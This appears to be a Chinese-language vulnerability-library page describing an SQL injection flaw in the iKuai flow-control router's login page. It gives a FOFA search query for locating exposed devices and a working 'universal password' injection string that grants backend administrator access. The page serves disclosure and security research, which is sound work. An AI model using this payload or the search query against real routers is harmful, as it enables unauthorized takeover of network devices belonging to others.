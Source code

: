 ```yaml
---
title: iKuai 流控路由 SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - iKuai
---
```


# iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

> [!NOTE]
>
> iKuai 流控路由

## FOFA

> [!NOTE]
>
> title="登录爱快流控路由"

## 漏洞复现

登录页面如下

![image-20210531180103698](/img/20210924020255599617.png)

使用万能密码登录后台

```
user: "or""=""or""="
pass: 空
```

![image-20210531180212296](/img/20210924020256759646.png)